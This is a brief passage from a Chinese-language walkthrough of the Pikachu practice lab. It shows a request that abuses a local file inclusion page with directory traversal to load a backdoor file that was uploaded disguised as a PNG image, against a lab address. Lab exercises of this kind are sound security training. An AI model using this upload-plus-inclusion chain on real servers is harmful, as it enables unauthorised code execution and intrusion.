 ![image-20230816212939811](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230816212939811.png)



图片的地址：`http://192.168.80.139/pikachu/vul/unsafeupload/uploads/2023/08/16/33780664dccf36108f6808817624.png`

通过使用文件包含路径去访问后门文件

```php
http://192.168.80.139/pikachu/vul/fileinclude/fi_local.php?filename=../../unsafeupload/uploads/2023/08/16/33780664dccf36108f6808817624.png&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```

![image-20230816213217472](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230816213217472.png)
